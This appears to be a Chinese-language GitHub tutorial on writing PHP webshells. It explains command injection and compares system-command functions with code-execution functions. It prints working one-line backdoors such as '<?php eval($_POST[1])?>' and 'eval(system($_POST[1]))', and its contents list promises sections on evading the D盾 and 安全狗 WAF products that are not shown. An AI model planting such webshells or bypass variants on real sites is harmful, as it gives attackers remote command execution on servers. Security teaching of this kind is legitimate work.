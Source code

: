 #  PHPweb渗透中的webshell编写

<audio src="./img/1.mp3" controls ></audio>
- 👴 wanna love you ！ 
<<[Is This Love (Original Mix)](http://music.163.com/song?id=402073828&userid=262256866)>> 
专辑：Is This Love (Original Mix)
歌手：Vicetone / Bob Marley

- 目录
  - Webshell介绍:
    - [啥是webshell](#啥是webshell)
    - [PHP的命令注入](#PHP的命令注入)
    - [常用函数的区别](#代码执行与加密函数和系统命令执行函数的区别)

  - 常见函数和变形：
    - [木马中的常见传值或绕过函数](#木马中的常见传值或绕过函数)
    - [常见变形](#最常见一句话马的多种变形)
  - Bypass D盾和安全狗分享:
    - [BypassD盾](#BypassD盾)
    - [一键免杀工具推荐](#webshell_venom)
    - 
## 啥是webshell

  简单来说，webshell就是一个以网业形式存在的shell，或者叫后门，小马。
  虽然一句话木马为了绕过waf的检测，出现了很多的变形，但是本质是不变的：木马执行了我们发送的命令。

  攻击者使用的恶意脚本，它的用途主要是在攻击后的Web应用程序上建立持久性的后门。webshell本身不能攻击或者利用远程漏洞，所以说它总是攻击 的第二阶段，这个阶段我们经常称为`post-exploitation`(国外渗透测试标准里面的一个阶段)。

## PHP的命令注入

PHP中可以使用某些[特殊函数](PHP中的特殊函数.md)来执行外部的代码或函数.

可以理解为，应用PHP语言中一些具有命令执行功能的函数时,将外部输入的代码执行为php可执行代码或系统命令，也就是俗称的 `webshell` 。在服务器不进行权限设置的时候。权限仅仅是 网页启动者的权限Linux 中为apache权限，权限很低，在windows中是，apache启动者的权限。 

例如:
`<?php echo systean('whoami');?>`

> 那么最常见的一句话木马` <?php eval($_POST[1])?> `为什么不直接用 `system()`呢？


## 代码执行与加密函数和系统命令执行函数的区别


|类型|函数|含义|
|---|---|---|
|执行系统命令|system, passthru, shell_exec, exec, popen, proc_open|直接对系统执行命令|
|代码执行与加密|eval, assert, call_user_func,base64_decode, gzinflate, gzuncompress, gzdecode, str_rot13|将代码作为PHP命令执行|

`$_POST[' ']` 接收我们传递的数据，并把接收的数据传递给一句话木马中执行命令的函数，进而执行命令，`system()`是对系统进行命令操作，而`eval()`函数是对PHP网页进行操作。 
所以可以组合为:
```php
<?php 
eval(system($_POST[1]));
```
